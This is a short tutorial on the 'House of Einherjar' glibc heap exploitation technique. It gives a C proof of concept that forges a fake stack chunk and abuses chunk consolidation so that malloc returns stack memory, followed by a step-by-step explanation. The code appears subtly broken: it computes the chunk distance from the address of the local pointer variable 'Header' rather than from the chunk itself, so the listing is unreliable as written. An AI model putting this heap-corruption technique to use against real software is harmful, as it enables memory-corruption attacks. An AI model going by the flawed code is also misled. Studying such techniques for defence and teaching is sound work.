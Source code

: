 # House of Einherjar
> LongChampion, 21/03/2020

Let see how to *hijack* `malloc` return a fake chunk.
```c
#include <stdlib.h>

struct CHUNK
{
    long long pre_size, size;
    struct CHUNK *fd, *bk, *nextsize_fd, *nextsize_bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x100 - 8);

    struct CHUNK Fake;
    Fake.fd = &Fake;
    Fake.bk = &Fake;
    Fake.nextsize_fd = &Fake;
    Fake.nextsize_bk = &Fake;

    struct CHUNK *Header = (struct CHUNK *) (b - 0x10);
    Header->size &= ~0xff;
    Header->pre_size = (long long) &Header - (long long) &Fake;
    Fake.size = Header->pre_size;

    free(b);
    void *STACK = malloc(0x100 - 8);
}
```
First, we need to create a fake chunk on stack. Because we will set size of this chunk to a very large value, struct `CHUNK` now have two additional pointer, `nextsize_fd` and `nextsize_bk`. Their functionalities are same as `fd` and `bk` pointer, btw. To bypass security checking, we simply set all four pointer point to ... the fake chunk itself. Don't be smile, it works in practice!  
Then, assume we have ability to change `pre_size` and `size` of chunk `b`. The least significant byte of `b`'s size is set to 0x00, this will (almost all time) reduce the size of chunk `b` and clear `PREV_INUSE` flag of chunk `b` as well.  
Next, `pre_size` of chunk `b` and `size` of fake chunk are set to a value which equal to the distance between two chunks. Now if we free chunk `b`, **GLIBC** will *think* that our fake chunk is the previous chunk of `b`, and because we have cleared `PREV_INUSE` flag of `b`, **GLIBC** will consolidate them together and puts the merged chunk into unsorted_bin.  
The next `malloc` call with suitable request size will return out fake chunk as we expect.
